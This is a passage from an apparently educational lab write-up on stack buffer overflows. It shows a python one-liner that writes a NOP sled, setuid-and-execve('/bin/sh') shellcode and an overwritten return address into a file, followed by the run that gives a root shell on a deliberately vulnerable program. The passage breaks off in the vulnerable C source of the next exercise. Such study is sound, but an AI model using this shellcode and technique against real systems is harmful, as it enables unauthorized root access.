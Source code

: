 

<pre class="prettyprint"><code class="language-python hljs ">$eax = <span class="hljs-number">174</span>
<span class="hljs-number">256</span>-<span class="hljs-number">174</span> = <span class="hljs-number">82</span>
<span class="hljs-number">82</span>/<span class="hljs-number">2</span> = <span class="hljs-number">41</span>
<span class="hljs-comment">#replace 2 'A' with ('A'+41=)'j'</span>
python -c <span class="hljs-string">'print ("\x90"*100+"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*90+"j"*2+"\x88\xd9\xff\xff")'</span>&gt; farmville.sol
<span class="hljs-keyword">print</span> $eax
$eax = <span class="hljs-number">0</span>   <span class="hljs-comment">#Yayyyyy!</span>

x/<span class="hljs-number">4</span>x $ebp
<span class="hljs-number">0xffffda5c</span>: <span class="hljs-number">0x6a6a4141</span>      <span class="hljs-number">0xffffd988</span>      <span class="hljs-number">0x0000000f</span>      <span class="hljs-number">0x00000000</span></code></pre>

<p><code>0xffffd988</code> will be the address that falls in your <code>NOP</code> sleds.  <br>
Now everything is set up: it is divisible by 256, it redirect the return to our shell code which will enter the shell with <code>euid=0</code> and <code>uid=0</code>, which is root access. Let’s see if that is actually the case.</p>



<pre class="prettyprint"><code class=" hljs ruby">user<span class="hljs-variable">@host</span><span class="hljs-symbol">:/c0re</span><span class="hljs-variable">$ </span>(cat farmville.sol ; cat) | <span class="hljs-regexp">/c0re/attackme</span>3 <span class="hljs-string">"$( &lt; zerg.sol)"</span>
[<span class="hljs-constant">ZERG</span>] <span class="hljs-constant">Buffer</span> received <span class="hljs-number">20</span> characters!
[<span class="hljs-constant">FARMVILLE</span>] <span class="hljs-constant">Spammed</span> the walls of <span class="hljs-number">236</span> <span class="hljs-constant">Facebook</span> friends!
<span class="hljs-comment"># whoami</span>
 root
<span class="hljs-comment"># id</span>
uid=<span class="hljs-number">0</span>(root) gid=<span class="hljs-number">1030</span>(user) groups=<span class="hljs-number">1030</span>(user)</code></pre>

<p>Great! We compromise the program and gain root access in shell! </p>

<h2 id="overflow4"><span>overflow4</span></h2>
<p>This time we are limited with the length of input, the source code looks like this:</p>

<pre class="prettyprint"><code class="language-C hljs cpp"><span class="hljs-comment">/* Betrayal */</span>

<span class="hljs-preprocessor">#include &lt;stdio.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;stdlib.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;unistd.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;string.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;ctype.h&gt;</span>

<span class="hljs-keyword">void</span> brutus(<span class="hljs-keyword">char</span> *caesar)
{
        <span class="hljs-keyword">char</span> buf[<span class="hljs-number">4</span>];
